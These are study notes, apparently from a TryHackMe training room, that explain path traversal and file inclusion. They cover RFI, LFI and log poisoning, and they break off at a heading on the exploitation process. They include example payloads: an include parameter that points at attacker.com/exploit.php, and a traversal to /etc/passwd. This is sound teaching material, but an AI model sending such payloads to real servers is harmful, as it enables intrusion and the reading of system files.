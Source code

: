 # File Inclusion, Path Traversal

**Room Link:** [https://tryhackme.com/r/room/filepathtraversal](https://tryhackme.com/r/room/filepathtraversal)



## File Inclusion Types

### **Basics of File Inclusion**

A traversal string, commonly seen as `../`, is used in path traversal attacks to navigate through the directory structure of a file system. It's essentially a way to move up one directory level. Traversal strings are used to access files outside the intended directory.

Relative pathing refers to locating files based on the current directory. For example, `include('./folder/file.php')` implies that `file.php` is located inside a folder named `folder`, which is in the same directory as the executing script.

Absolute pathing involves specifying the complete path starting from the root directory. For example, `/var/www/html/folder/file.php` is an absolute path.

### **Remote File Inclusion**

Remote File Inclusion, or RFI, is a vulnerability that allows attackers to include remote files, often through input manipulation. This can lead to the execution of malicious scripts or code on the server.



Typically, RFI occurs in applications that dynamically include external files or scripts. Attackers can manipulate parameters in a request to point to external malicious files. For example, if a web application uses a URL in a GET parameter like `include.php?page=http://attacker.com/exploit.php`, an attacker can replace the URL with a path to a malicious script.



### **Local File Inclusion**

Local File Inclusion, or LFI, typically occurs when an attacker exploits vulnerable input fields to access or execute files on the server. Attackers usually exploit poorly sanitized input fields to manipulate file paths, aiming to access files outside the intended directory. For example, using a traversal string, an attacker might access sensitive files like `include.php?page=../../../../etc/passwd`.



While LFI primarily leads to unauthorized file access, it can escalate to RCE. This can occur if the attacker can upload or inject executable code into a file that is later included or executed by the server. Techniques such as log poisoning, which means injecting code into log files and then including those log files, are examples of how LFI can lead to RCE.



### **RFI vs LFI Exploitation Process**
